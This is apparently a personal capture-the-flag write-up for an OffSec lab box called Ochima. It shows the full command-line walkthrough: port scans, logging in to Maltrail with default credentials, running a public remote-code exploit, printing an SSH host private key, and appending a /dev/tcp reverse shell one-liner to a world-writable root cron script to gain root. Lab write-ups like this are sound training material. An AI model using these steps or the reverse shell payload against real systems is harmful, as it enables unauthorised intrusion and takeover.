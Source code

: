 # Ochima f.ka. CTF-200-01 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nmap -v -Pn -p- -T4 ctf-200-01       
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8338/tcp open  unknown
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nmap -v -Pn -p 22,80,8338 -A ctf-200-01
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8338/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: Maltrail/0.52
|     Date: Sun, 10 Mar 2024 18:30:53 GMT
|     Connection: close
|     Content-Type: text/html
|     Last-Modified: Sat, 31 Dec 2022 22:58:57 GMT
|     Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
|     Cache-Control: no-cache
|     Content-Length: 7091
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta http-equiv="Content-Type" content="text/html;charset=utf8">
|     <meta name="viewport" content="width=device-width, user-scalable=no">
|     <meta name="robots" content="noindex, nofollow">
|     <title>Maltrail</title>
|     <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
|     <link rel="stylesheet" type="text/css" hre
|   HTTPOptions: 
|     HTTP/1.0 501 Unsupported method ('OPTIONS')
|     Server: Maltrail/0.52
|     Date: Sun, 10 Mar 2024 18:30:53 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
```

Checking out the webservers on 80 and 8338 in the browser:

![](./assets/80-webserver-root.png)

![](./assets/8338-webserver-root.png)

My money is on this Maltrail server being our access vector.

We look in the web for default credentials:

![](./assets/maltrail-default-creds.png)

Trying them out (`admin:changeme!`) lets us in - Great!

There are no hits on exploitdb for "maltrail", but searching for "maltrail exploit" on google gets us to [a gitrepo](https://github.com/spookier/Maltrail-v0.53-Exploit).

We clone the repo, read the code, and try it out.

I set up my listener on port 80, and run the code:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 192.168.45.172 80 http://ctf-200-01:8338             
Running exploit on http://ctf-200-01:8338/login
```

We catch a shell as user `snort`.

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01/Maltrail-v0.53-Exploit]
└─$ nc -lvnp 80                                                             
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.32] 36084
$ whoami
whoami
snort
```

We find our first flag where we expect it:

```
$ cd /home/snort
cd /home/snort
$ cat local.txt
cat local.txt
2d8c1bc6c448af023375dede7de7561c
```

## Privilege Escalation

We run LinPEAS... the higher relevancy findings I can see are:

- Kernel exploit probable

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: probable
   Tags: [ ubuntu=(22.04) ]{kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
```

- There is a tarball called `etc_backup.tar` in user `snort`'s home directory

I untar the file and go dumpster diving...

I find a bunch of private keys to try in `${UNTARED_ETC}/ssh`:

```
$ pwd
pwd
/home/snort/etc/ssh
$ ls -la
ls -la
total 560
drwxr-xr-x   4 snort snort   4096 Dec 11 12:27 .
drwxr-xr-x 102 snort snort   4096 Dec 16 14:27 ..
-rw-r--r--   1 snort snort 505426 Feb 25  2022 moduli
-rw-r--r--   1 snort snort   1650 Feb 25  2022 ssh_config
drwxr-xr-x   2 snort snort   4096 Feb 25  2022 ssh_config.d
-rw-r--r--   1 snort snort   3266 Dec 11 12:27 sshd_config
drwxr-xr-x   2 snort snort   4096 Feb 25  2022 sshd_config.d
-rw-r--r--   1 snort snort   3239 Oct 31 04:33 sshd_config.ucf-dist
-rw-------   1 snort snort   1381 Jun 15  2022 ssh_host_dsa_key
-rw-r--r--   1 snort snort    601 Jun 15  2022 ssh_host_dsa_key.pub
-rw-------   1 snort snort    505 Jun 15  2022 ssh_host_ecdsa_key
-rw-r--r--   1 snort snort    173 Jun 15  2022 ssh_host_ecdsa_key.pub
-rw-------   1 snort snort    399 Jun 15  2022 ssh_host_ed25519_key
-rw-r--r--   1 snort snort     93 Jun 15  2022 ssh_host_ed25519_key.pub
-rw-------   1 snort snort   2590 Jun 15  2022 ssh_host_rsa_key
-rw-r--r--   1 snort snort    565 Jun 15  2022 ssh_host_rsa_key.pub
-rw-r--r--   1 snort snort    342 Dec  7  2020 ssh_import_id
```

```
$ cat ssh_host_ed25519_key
cat ssh_host_ed25519_key
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAXSLOD1mfMmNjkOiZZPOCIXefteTW95dKr6X9ZbN8H2gAAAJATlAZRE5QG
UQAAAAtzc2gtZWQyNTUxOQAAACAXSLOD1mfMmNjkOiZZPOCIXefteTW95dKr6X9ZbN8H2g
AAAEA1ChWLNVBMCX2hkw5T/q4Xi8045SXnoI+Si70uYRQZxhdIs4PWZ8yY2OQ6Jlk84Ihd
5+15Nb3l0qvpf1ls3wfaAAAAC3Jvb3RAdWJ1bnR1AQI=
-----END OPENSSH PRIVATE KEY-----
```

Looking at the SSH config, we won't be able to use these keys anyways.... So this is a dead end.

I run `pspy` (which I had to download to kali from the internet and serve over http for the victim host to fetch and run).

We see some interesting findings:

```
2024/03/10 19:13:01 CMD: UID=0     PID=27727  | /usr/sbin/CRON -f -P 
2024/03/10 19:13:01 CMD: UID=0     PID=27728  | /bin/sh -c /var/backups/etc_Backup.sh 
2024/03/10 19:13:01 CMD: UID=0     PID=27730  | tar -cf /home/snort/etc_backup.tar /etc 
2024/03/10 19:13:01 CMD: UID=0     PID=27729  | /bin/bash /var/backups/etc_Backup.sh 
```

The process that created the backup tar that we found earlier runs frequently...

I wonder if we can modify that `/var/backups/etc_backup.sh` script to get root...

```
snort@ochima:~$ ls -la /var/backups | grep etc
ls -la /var/backups | grep etc
-rwxrwxrwx  1 root root     54 Dec 11 12:27 etc_Backup.sh
```

Yes we can... I'll append a reverse shell to that script

```
snort@ochima:/var/backups$ cat etc_Backup.sh
cat etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc

snort@ochima:/var/backups$ echo '0<&196;exec 196<>/dev/tcp/192.168.45.172/8338; sh <&196 >&196 2>&196' >> etc_Backup.sh

snort@ochima:/var/backups$ cat etc_Backup.sh
cat etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc
0<&196;exec 196<>/dev/tcp/192.168.45.172/8338; sh <&196 >&196 2>&196
```

I set up my local listener on port 8338 (in Kali) and wait... and soon enough we get root!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nc -lnvp 8338                        
listening on [any] 8338 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.32] 37444
whoami
root
```

We then find our flag where we expect it to be:

```
cat /root/proof.txt
7ce9f4bacb76d5c035660d4588791dcb
```
